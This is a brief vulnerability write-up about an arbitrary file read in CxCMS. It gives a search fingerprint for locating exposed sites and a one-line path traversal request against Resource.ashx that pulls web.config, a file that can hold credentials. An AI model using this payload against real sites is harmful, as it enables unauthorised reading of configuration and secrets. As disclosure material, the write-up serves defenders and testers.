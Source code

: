 # CxCMS Resource.ashx Arbitrary file reading vulnerability

## Vulnerability Description

There is any file read in CxCMS. Because the /Sys/Handler/Resource.ashx page _FilePath parameter is not filtered strictly, system-sensitive files can be read.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CxCMS </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Powered by CxCms"</span>

## Vulnerability reappears

Keyword confirmation CMS

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635923532626-6348c269-8042-4b83-9296-aac9516db18e.png)

Verify POC

```php
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635923602690-86a13443-0ef9-4788-8ec6-fad2b601ff7e.png)